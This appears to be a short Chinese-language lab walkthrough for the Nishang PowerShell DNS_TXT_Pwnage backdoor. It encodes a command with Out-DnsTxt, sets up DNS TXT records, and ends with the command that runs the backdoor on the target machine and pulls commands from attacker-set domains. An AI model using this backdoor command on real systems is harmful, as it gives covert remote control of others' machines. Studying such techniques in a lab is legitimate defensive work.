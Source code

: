 	https://github.com/samratashok/nishang/Utility/Out-DnsTxt.ps1
	https://github.com/samratashok/nishang/Backdoors/DNS_TXT_Pwnage.ps1
	新建一个psh文件，使用out-dnstxt转换，这里的命令是net user
![image](img/201.png)
![image](img/202.png)

	y0stUSgtTi3i5QIA
	添加一条域名txt记录，这里在本地设置，正常是在域名商的网站里配置
![image](img/203.png)

	还需创建两个txt记录，分别是指定开始和结束的字符串
![image](img/204.png)
![image](img/205.png)

	靶机执行
	>Import-Module .\DNS_TXT_Pwnage.ps1
	>DNS_TXT_Pwnage -startdomain start.zone.com -cmdstring cmd -commanddomain 1.zone.com -psstring start -psdomain zone.com -Subdomains 1 -StopString stop
![image](img/206.png)